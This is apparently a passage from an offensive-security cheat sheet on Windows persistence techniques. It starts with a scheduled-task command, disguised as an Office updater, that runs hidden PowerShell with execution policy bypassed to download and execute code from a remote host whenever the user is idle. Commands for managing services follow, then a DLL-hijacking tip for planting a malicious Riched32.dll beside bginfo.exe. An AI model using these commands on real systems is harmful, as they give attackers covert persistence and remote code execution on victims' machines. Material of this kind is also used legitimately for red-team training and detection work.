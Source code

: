 ```
    #(X64) - On User Idle (30mins)
    schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
```

##### Additional Notes

Scheduled Tasks binary paths CANNOT contain spaces because everything after the first space in the path is considered to be a command-line argument. To workaround this behavior, enclose the /TR path parameter between backslash (\) AND quotation marks ("):

Delete scheduled task without prompting

```
    schtasks /delete /f /TN taskname
```

Detailed scheduled tasks listing

```
    schtasks /query /V /FO list
```

View scheduled tasks log (for troubleshooting)

```
    notepad c:\windows\schedlgu.txt (Windows XP)

    notepad c:\windows\tasks\schedlgu.txt (Vista+)

```

#### Windows Service

```
    sc query
    sc create <\\Target(optional)> <servicename> binPath= <service binary path> type= share start= auto DisplayName= <display name>
    sc delete <servicename>
```

#### DLL-Hijacking

Order of DLL Loading

```
1. The directory from which the application is loaded
2. The current directory
3. The system directory, usually C:\\Windows\\System32\\ (The GetSystemDirectory function is called to obtain this directory.)
4. The 16-bit system directory - There is no dedicated function to retrieve the path of this directory, but it is searched as well.
5. The Windows directory. The GetWindowsDirector function is called to obtain this directory.
6. The directories that are listed in the PATH environment variable.
```

Many systems use bginfo (seen it a lot in operational sys). Drop Riched32.dll in the dir with bginfo.exe. Codex.
